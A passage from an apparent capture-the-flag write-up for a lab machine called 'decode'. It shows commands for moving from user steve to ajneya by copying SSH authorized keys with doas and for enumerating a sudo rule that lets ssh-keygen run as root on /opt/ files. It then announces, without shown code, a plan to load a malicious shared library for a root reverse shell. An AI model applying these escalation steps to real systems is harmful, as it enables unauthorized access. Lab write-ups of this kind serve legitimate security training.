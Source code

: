 I will first copy Steve's `.ssh` directory, along with my public `id_rsa` key, into `/home/ajneya/`.

Hands on...

### 3.3. Escalation to `ajneya`

```bash
steve@decode:/home/steve/.ssh$ ls
authorized_keys

steve@decode:/home/steve$ doas -u ajneya cp -r .ssh/ /home/ajneya/
steve@decode:/home/steve$ cd /home/ajneya/.ssh/
steve@decode:/home/ajneya/.ssh$ ls
authorized_keys
```


```bash
❯ ssh ajneya@192.168.0.106

ajneya@decode:~$ 
```

**FLAG 1**

```bash
ajneya@decode:~$ ls
user.txt
```

## 4. Privilege Escalation

List of permission has `ajneya`:

```bash
ajneya@decode:~$ ls  sudo -l
Matching Defaults entries for ajneya on decode:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ajneya may run the following commands on decode:
    (root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*
```

**Key points:** 
- `ajneya` has permissions to run ssh-keygen as root on any file inside /opt/, no password required.

This means `ajneya` can execute `ssh-keygen` on any file within `/opt/` as root, which provides a potential way to execute arbitrary code.

For which i will take adventage of this to execute a malicious shared library with root privileges.

### 4.1. Creating a Malicious Shared Library for a Reverse Shell
